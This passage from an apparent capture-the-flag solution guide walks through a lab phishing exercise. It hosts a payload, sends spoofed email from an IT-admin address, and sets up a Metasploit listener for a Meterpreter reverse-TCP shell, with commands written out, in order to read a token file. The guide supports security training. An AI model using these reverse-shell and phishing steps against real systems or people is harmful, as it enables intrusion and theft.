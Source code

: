 Run the webserver with `sudo python3 webserver.py`.

![](./img/c21-image31.png)

You can test the webserver and page by browsing to it locally. Doing so should download your payload file to your Downloads folder if you set up everything properly.

Finally, setup a Metasploit listener to match the payload:

Run `msfconsole`.

Then, use the following parameters (or modify according to the payload you created):

```
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 123.45.67.150
set LPORT 8080
set ExitOnSession false
exploit -j
```

Trigger the grading check, which will report back with a few messages depending on the state of your environment:

1. If no emails are found addressed to `user@merch.codes` you will be notified.
2. If the emails to `user@merch.codes` are not coming from `it-admin@merch.codes` you will be notified.
3. If the emails meet the above conditions but do not contain a viable link to `http://yourfiles.zip` you will be notified.
4. If all above conditions are met, the grading check will trigger a script on the user system that will download and execute your payload file for 30 seconds. If this does not result in a connection, you may need to check if your payload and/or listener are set up properly and try the grading check again once the 30 secon timeout ends. You do not need to resend the email if you have received this message because the email has already been validated.

Once you have a session in Meterpreter use `sessions -i 1` to interact.

You will land in the **Downloads** folder for user, since that is where the payload was executed.

Simply browse to /home/user (`cd ..`), view the contents of the directory (`ls`), and view the token3.txt file (`cat token3.txt`).

You will need to do the above quickly. Otherwise, you can set up an autorun script in metasploit once you connect to a session.

## Question 4

*What is the flag retrieved from the standard server in the User-B network?*

By finding the open ports in the scan results you should find an FTP service and a second web service running on ports 54321 and 54380.
